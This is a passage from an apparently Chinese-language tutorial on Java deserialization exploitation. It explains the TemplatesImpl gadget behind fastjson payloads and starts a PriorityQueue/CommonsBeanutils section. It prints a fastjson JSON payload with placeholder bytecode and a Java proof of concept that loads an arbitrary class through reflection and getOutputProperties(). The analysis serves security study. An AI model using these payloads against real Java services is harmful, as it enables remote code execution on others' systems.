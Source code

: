 但我们可以发现在fastjson的payload中并没有这样设置。

```
`{`"a":`{`"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":[""xxxxxxxxxxxxxxxxxxxxxxxx""],"_name": "aaa","_tfactory":`{``}`,"_outputProperties":`{``}``}``}`
```

实际情况注释掉这行代码生成的反序列化payload也一样能用，但直接调用getOutputProperties却不能缺失这行，所以最好还是加上。

而我们设置的_bytecodes在这儿被defineClass加载进去，此处最终会调用原生defineClass加载字节码，然后赋值给_class[i]。而在getTransletInstance()执行defineTransletClasses()之后

```
AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
```

由于_transletIndex = i，至此我们加载进去的TemplatesImplcmd.class被实例化。

总结，只要我们事先用反射设置好_bytecodes/_name/_tfactory这三个属性，再调用TemplatesImpl.getOutputProperties()，即可执行任意类。POC如下

```
package test;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.io.*;
import java.lang.reflect.Field;

public class Test `{`
    public static void main(String[] args) throws Exception `{`
        FileInputStream inputFromFile = new FileInputStream("C:\\Users\\Administrator.K\\workspace\\test\\bin\\test\\TemplatesImplcmd.class");
        byte[] bs = new byte[inputFromFile.available()];
        inputFromFile.read(bs);
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]`{`bs`}`);
        setFieldValue(obj, "_name", "TemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        obj.getOutputProperties();
    `}`
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception `{`
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    `}`

`}`
```

这也是正是fastjson payload的原理。



## 三、 PriorityQueue

PriorityQueue是一个优先队列，在反序列化的过程中，会调用Comparator对元素进行比较，Click1和CommonsBeanutils1存在反序列化漏洞的原因就是因为它们都重写了compare()方法。<br>
我们还是从后往前去跟，先看PriorityQueue.readObject()
